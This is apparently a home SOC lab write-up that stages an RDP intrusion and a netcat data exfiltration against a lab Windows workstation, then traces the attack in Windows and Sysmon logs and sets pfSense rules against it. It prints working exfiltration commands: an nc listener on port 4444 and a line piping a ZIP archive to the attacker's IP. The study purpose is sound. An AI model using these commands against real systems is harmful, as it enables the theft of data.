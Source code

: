 # Active Directory Attack Playbook (Using RDP and Data Exfiltration)

## **Overview**

- **Target:** Windows Workstation (within the soc.lab domain)
  - IP Address: 192.168.10.20 
  - Domain: `soclab.local`

- **Attacker: Kali Linux**
  - IP Address: 192.168.20.30

From the last brute force attack:
- The attacker has successfully discovered user credentials.
- The attacker gains remote access through RDP (Remote Desktop Protocol).

We can see in the screenshot below that the Kali Linux machine was successfully logged in and is now inside the victim's system.

![kali_hacked_windows10](https://github.com/user-attachments/assets/1d1e42ed-2628-4dcc-9d2f-7f88a6604d40)

## **Data Exfiltration Process**

### 1. Establishing a Remote Desktop Session

Gain remote access to the target Windows 10 workstation via RDP using the discovered credentials. The following command is used to initiate the RDP session:

```bash
xfreerdp3 /u:attacker_user /p:<discovered_password> /v:192.168.10.20
````
Once logged into the target system, a PowerShell command is executed to compress the sensitive data into a ZIP file:

```bash
powershell Compress-Archive -Path "C:\dummy\data" -DestinationPath "C:\dummy\data.zip"
```

The data exfiltration is performed using Netcat to establish a direct connection between the Victmin and Kali:

On kali:

```bash
nc -lvnp 4444 > exfil_data.zip
```
On Windows Victmin machine:

```bash
Get-Content -Path "C:\dummy\data.zip" | nc 192.168.20.30 4444
```


## **Monitoring Windows Logs**

**1. Credential Validation Attempt:**
- We can see that the attacker with the name: kali attempted to validate credentials for the labadmin user, which was logged as a successful authentication in the Windows Event Viewer, with Error Code: 0x0 (Success):

![Succefull_validated](https://github.com/user-attachments/assets/4adf116e-0ef2-429e-938c-637fb25e51be)


**2. Kerberos Ticket Granting Ticket (TGT) Request**

- Following successful authentication, a Kerberos TGT request was logged, which means the attacker now has a TGT issued for labadmin, allowing further access to domain resources.

![kerberos](https://github.com/user-attachments/assets/c4501f99-27a2-4924-9537-f8f9c520d466)

**3. Disabling the Windows Firewall (Sysmon)**

After gaining access, I analyzed Sysmon logs to detect further suspicious activity. At 02:56:25 (UTC), I found an entry showing that the attacker executed  super suspissious the netsh command to disable the Windows Firewall across all profiles.

This action suggests that the attacker was attempting to weaken the system's network to facilitate outbound connections.

Here is the Sysmon Event ID 1 (Process Creation) log:

![firewall](https://github.com/user-attachments/assets/8f279c2e-edd7-42e6-ae79-7cc8fc1c233e)



**4. File Creation and Directory Logs (Sysmon)**

- To gain deeper insights into user activities, I turned to Sysmon logs, which provided a detailed process and deeper information, looking for Event ID 1 (Process Creation).

- With that, I found an entry that shows the attacker used PowerShell to create a compressed archive named data.zip from a directory named data. This occurred at 02:57:18 (UTC).

- Here is the Sysmon Event ID 1 (Process Creation) log:

![Datazip](https://github.com/user-attachments/assets/dfe40ac0-a367-46d9-867a-e8619a491b94)


This confirms that the attacker compressed sensitive files into a .zip archive for potential exfiltration.


**5. Suspicious Network Connection (Sysmon)**

- After that, just 1 miute right after, in the Sysmon logs, I found a suspicious network connection logged under Event ID 3 (Network Connection). This entry shows that the Windows machine (192.168.10.20) established a connection to the kali’s IP address (192.168.20.30) over port 4444, which is a non-standard port often used in reverse shells and data exfiltration activities, which may mean that the attacker tried to send the data.zip fille on this Network Connection.

Here we can see the Sysmon Event ID 3 (Network Connection) log:

![netcat](https://github.com/user-attachments/assets/35cc0c0e-55c7-4c0c-8972-4db73f1b77f2)



## **Firewall Rules on pfSense:**

1- **Create an Alias for Internal Systems:**

- ![rule1](https://github.com/user-attachments/assets/a05efab9-6c65-46b9-9ba9-350ee7470d62)

Explanation:
 - This limits RDP access to trusted internal devices (from Network: 192.168.10.0/24)


2- **Block Unauthorized Kerberos Requests:**

- ![rule2](https://github.com/user-attachments/assets/d3a12053-ea1f-483f-ad70-11f24596919b)

Explanation:
- This blocks port 4444 and other non-standard ports that kali used for reverse shells.


3- **Limit External and Internal LDAP Queries:**

- ![rule3](https://github.com/user-attachments/assets/98eeeb87-f991-49f5-8b85-fcb567f4de7b)


Explanation:
-  This prevents exfiltration via FTP/SSH/HTTP/S.


Note: In this experiment, CrowdSec was disabled to allow this action to proceed, but the rules are on the [configs directory](https://github.com/NunooFerreira/SOC-Lab-Home-Cybersecurity-Monitoring/blob/main/configs/CrowdSec_configs/custom_exfiltration_watch.yaml).









